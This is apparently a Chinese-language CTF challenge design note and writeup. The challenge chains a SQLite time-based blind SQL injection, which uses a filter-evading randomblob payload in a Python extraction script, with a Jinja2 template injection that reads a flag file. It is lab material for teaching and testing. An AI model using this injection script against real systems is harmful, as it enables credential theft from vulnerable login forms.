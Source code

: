 # 赛题设计说明

## 题目信息：

* 题目名称：不仅仅是个SQL
* 预估难度：中等偏易


## 题目描述：
```
这大概是一个很简单的web题目吧——不仅仅是SQL注入。
```

## 题目考点：
```
1. sql盲注
2. jinja2模板注入
```

## 思路简述：
1. 通过SQL盲注获取admin用户的账户密码
1. 使用admin用户登陆到达欢迎界面
1. 利用jinja2模板注入漏洞获取位于web根目录下的flag.txt中的flag


## 题目提示：
1. robots.txt中的sql语句执行逻辑
1. 登陆成功后界面源码中的flag路径提示
1. 登陆成功界面中的图片暗示


## 原始 flag 及更新命令：

```shell
    # 原始 flag
    flag{flag_test}
    # ..
    # 更新 flag 命令
    echo 'flag{85c2a01a-55f7-442a-8712-3f6908e1463a}' > /flag
```


## 题目环境：
```
1. Ubuntu 16.04 LTS(phusion/baseimage)
2. nginx (apt源默认版本)
3. python3 (3.5.x apt源默认版本)
4. uwsgi
5. flask
```

## 题目制作过程：
1. 设计好漏洞，前端框架以及后端代码
2. 按照“Docker示例文档.md”来编写Dockerfile，制作好镜像，调试测试运行。

## 题目writeup：
![1](./img/1.jpg)
1. 访问robots.txt 获得提示：
    * 后台为python
    * 采用了sqlite数据库，并且对用户输入进行了过滤
    * 数据库内存储了密码的md5(32位)计算结果

![2](./img/2.jpg)
1. 因为登陆界面提供任何回显，所以猜测这里需要盲注
1. 使用sqlite3的基于 ```randomblob()``` 函数的盲注
1. 经过多次尝试发现后端过滤小写的select，from等关键词以及空格，于是采用如图格式注入
1. 编写如下python脚本执行盲注
    ```
    def sqlpw(url):
    session=requests.Session()
    params={"password":"0"}
    password=""
    for i in range(32):
        for x in "0123456789abcdefghijklmnopqrstuvwsyz":
            try:
                username="admin'AND(SELECT(hex(substr(password,{},1)))FROM(users))=hex('{}')AND(randomblob(1000000000))--".format(i+1,x)
                params['username']=username
                # print(params)
                r=session.post(url,data=params,timeout=1)
                # print(r.status_code)
            except exceptions.Timeout:
                password=password+x
                logging.info(password)
                sleep(3)
                break
    return password
    ```
1. 脚本运行结果得到密码的md5值
1. 查找还原密码原文，并利用密码登陆

![3](./img/3.jpg)
1. 欢迎界面检查网页源码发现提示flag位于根目录下
1. 依据页面鸟居图片获得提示联想到jinja2的项目[LOGO](./img/4.png)猜测此题为jinjia2模板注入漏洞

![4](./img/4.jpg)
1. 从URL注入点username写入测试payload验证漏洞确实存在

![5](./img/5.jpg)
1. 经过多次尝试发现注入点过滤方括号，遂构成如图的payload完成注入得到flag

## 注意事项

1. 本项目种所写的python代码，包括check.py，exp.py均基于python3.5+版本，未在python2上运行测试过。
1. Docker镜像构建时请保证源码目录下的目录结构不变。